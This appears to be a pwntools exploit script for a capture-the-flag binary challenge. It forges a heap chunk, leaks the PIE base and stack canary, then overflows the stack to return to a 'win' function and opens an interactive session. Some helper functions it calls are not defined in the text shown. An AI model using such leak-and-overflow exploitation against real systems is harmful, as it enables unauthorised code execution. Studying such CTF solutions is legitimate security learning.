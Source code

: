```python
def stack_scanf(data):
    target.sendlineafter(b": ", b"stack_scanf")
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"A" * 0x30,
        0,
        0x401,
    )
    stack_scanf(payload)
    stack_free()

    malloc(0, 0x3F0)
    echo(0, 0x18)
    target.recvuntil(b"Data: ")
    pie = int.from_bytes(target.recvline().strip(), "little") - 0x22DD
    win = pie + 0x1A22

    echo(0, 0x49)
    target.recvuntil(b"Data: ")
    canary = int.from_bytes(target.recvline().strip().rjust(0x8, b"\x00"), "little")

    target.success(f"pie: {hex(pie)}")
    target.success(f"win: {hex(win)}")
    target.success(f"canary: {hex(canary)}")

    payload = flat(
        b"A" * 0x48,
        canary,
        0,
        win,
    )
    raw_input("DEBUG")
    scanf(0, payload)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```
